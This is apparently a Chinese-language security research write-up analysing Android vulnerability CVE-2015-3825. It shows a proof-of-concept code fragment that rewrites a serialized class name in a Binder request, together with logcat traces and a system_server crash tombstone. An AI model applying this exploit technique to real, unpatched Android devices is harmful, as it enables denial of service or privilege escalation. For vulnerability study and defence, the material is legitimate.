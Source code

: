 和CVE-2014-7911 PoC一样，向“android.os.IUserManager”的service发送请求前，修改类名：

```
int l = data.length;
for (int i=0; i<l-4; i++) {
if (data[i] == 'A' && data[i+1] == 'p' && data[i+2] == 'e' && data[i+3] == 'n') {
data[i] = 'O';
break;
    }
}

```

类似CVE-2014-7911的分析，我们也对service.jar加一些日志信息输出，在Android 4.4.2的AVD中，安装、运行PoC，我们看到：

```
E/CVE-2014-7911-trace(1669): setApplicationRestrictions
E/CVE-2014-7911-trace(1669): writeApplicationRestrictionsLocked
E/CVE-2014-7911-trace(1669): writeApplicationRestrictionsLocked::for::eatthis
E/CVE-2014-7911-trace(1669): writeApplicationRestrictionsLocked::for::else
E/CVE-2014-7911-trace(1669): writeApplicationRestrictionsLocked::Exception
E/CVE-2014-7911-trace(1669): writeApplicationRestrictionsLocked::Exception::java.lang.ClassCastException: com.android.org.conscrypt.OpenSSLX509Certificate cannot be cast to java.lang.String[]
W/System.err(1669): java.lang.ClassCastException: com.android.org.conscrypt.OpenSSLX509Certificate cannot be cast to java.lang.String[]
at com.android.server.pm.UserManagerService.writeApplicationRestrictionsLocked(UserManagerService.java:1417)
at com.android.server.pm.UserManagerService.setApplicationRestrictions(UserManagerService.java:1124)
at android.os.IUserManager$Stub.onTransact(IUserManager.java:245)
W/System.err(1669):     at android.os.Binder.execTransact(Binder.java:404)
W/System.err(1669):     at dalvik.system.NativeStart.run(Native Method)
E/UserManagerService(1669): Error writing application restrictions list

```

也是强制类型转换导致异常，与CVE-2014-7911的强制转换为java.io.Serializable导致的异常不同，因为传入的object本身不是序列化的对象，致使类型转换失败。CVE-2015-3825是将`com.android.org.conscrypt.OpenSSLX509Certificate`强制转换为`java.lang.String[]`而产生的异常。

验证PoC过程中，在Android 4.4.2 AVD，只触发了“Error writing application restrictions list”异常，但是GC资源回收没被触发。

在Android 5.1.1 AVD，可以通过重复发送n次的“TRANSACTION_setApplicationRestrictions”请求可以触发GC回收资源，最后导致system_server的crash:

```
A/libc(4839): Fatal signal 11 (SIGSEGV), code 1, fault addr 0x7f7f7f8f in tid 4848 (FinalizerDaemon)
I/DEBUG(61): *** *** *** *** *** *** *** *** *** *** *** *** *** *** *** ***
I/DEBUG(61): Build fingerprint: 'generic/sdk_phone_armv7/generic:5.1/LKY45/1737576:eng/test-keys'
I/DEBUG(61): Revision: '0'
I/DEBUG(61): ABI: 'arm'
I/DEBUG(61): pid: 4839, tid: 4848, name: FinalizerDaemon  >>> system_server <<<
I/DEBUG(61): signal 11 (SIGSEGV), code 1 (SEGV_MAPERR), fault addr 0x7f7f7f8f
I/DEBUG(61):     r0 00000000  r1 0000000c  r2 00000000  r3 00000000
I/DEBUG(61):     r4 b6c9766f  r5 00000003  r6 ffffffff  r7 7f7f7f8f
I/DEBUG(61):     r8 00000075  r9 b6c24ac9  sl a78fbaa4  fp 13068980
I/DEBUG(61):     ip 00000001  sp a78fba58  lr b6c3da1d  pc b6c3da1c  cpsr 60000030
I/DEBUG(61): backtrace:
I/DEBUG(61):     #00 pc 00072a1c  /system/lib/libcrypto.so (CRYPTO_add_lock+59)
I/DEBUG(61):     #01 pc 000579b1  /system/lib/libcrypto.so (asn1_do_lock+68)
I/DEBUG(61):     #02 pc 0005646f  /system/lib/libcrypto.so
09-06 20:31:31.394: I/DEBUG(61):     #03 pc 00056415  /system/lib/libcrypto.so (ASN1_item_free+12)
09-06 20:31:31.395: I/DEBUG(61):     #04 pc 00017c0d  /data/dalvik-cache/arm/system@framework@boot.oat
09-06 20:32:09.116: I/art(5663): Background sticky concurrent mark sweep GC freed 7340(386KB) AllocSpace objects, 0(0B) LOS objects, 45% free, 603KB/1117KB, paused 887us total 513.880ms
09-06 20:32:22.682: I/DEBUG(61): Tombstone written to: /data/tombstones/tombstone_01

```